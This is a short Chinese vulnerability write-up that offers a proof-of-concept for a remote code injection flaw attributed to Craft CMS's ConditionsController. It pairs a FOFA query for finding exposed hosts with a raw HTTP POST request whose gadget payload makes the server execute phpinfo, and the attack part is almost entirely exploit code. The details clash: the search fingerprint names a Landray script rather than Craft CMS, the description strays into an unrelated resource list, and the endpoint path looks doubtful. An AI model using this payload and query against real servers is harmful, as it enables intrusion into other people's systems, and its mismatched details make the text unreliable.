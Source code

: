 **fofa**

```
body="/Scripts/jquery.landray.dialog.js"
```

**一、漏洞简述**

Craft CMS 是一个基于PHP的开源内容管理系统，专为设计师、开发人员和内容创作者打造，以其灵活性、可扩展性和用户体验而知名。在其官方仓库中，有一个名为 Awesome Craft CMS 的项目，它是一个精选的资源列表，涵盖了插件、主题、教程及社区资源，帮助用户更好地利用Craft CMS进行网站开发。其接口/ConditionsController.php存在任意代码注入漏洞，攻击者可通过该漏洞注入恶意代码执行系统命令，从而控制该系统。

**二、漏洞检测poc**

```yaml
POST /ConditionsController.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 238

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream",    "__construct()": [{"close":null}],"_fn_close":"phpinfo"}}

```

